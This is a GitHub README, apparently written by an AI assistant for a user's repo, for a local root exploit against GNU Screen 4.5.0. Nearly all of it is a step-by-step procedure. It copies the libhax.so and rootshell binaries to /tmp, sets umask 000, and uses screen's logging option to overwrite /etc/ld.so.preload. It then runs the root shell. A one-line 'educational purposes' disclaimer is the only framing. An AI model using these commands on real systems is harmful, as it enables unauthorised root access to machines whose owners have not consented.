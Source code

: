 # GNU-Screen-4.5.0---Local-Privilege-Escalation

Here's a README.md for your GitHub repo:

---

# Screenroot Exploit

This repository contains the binary files `libhax.so` and `rootshell`, which are part of a local root exploit for screen version 4.5.0. This exploit abuses `ld.so.preload` overwriting to escalate privileges.

## Disclaimer
This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.

## Requirements
- A machine with `screen` version 4.5.0 or a vulnerable version installed.
- Access to the target machine where you can transfer and execute the binaries.

## Exploit Execution

### 1. Clone this repository
First, clone the repository to your local machine:

```bash
git clone https://github.com/yourusername/screenroot-exploit.git
cd screenroot-exploit
```

### 2. Transfer the binaries
Copy the `libhax.so` and `rootshell` binaries to the target machine. You can use `scp` or another method of file transfer:

```bash
scp libhax.so rootshell user@target:/tmp/
```

### 3. Set the appropriate permissions
On the target machine, change the permissions of the `rootshell` binary:

```bash
chmod +x /tmp/rootshell
```

### 4. Exploit the vulnerability
To exploit the vulnerability, run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
```

This overwrites `ld.so.preload`, which allows the exploit to escalate privileges.

### 5. Trigger the exploit
Now, trigger the `rootshell` to obtain a root shell:

```bash
/tmp/rootshell
```

You should now have root access.

---


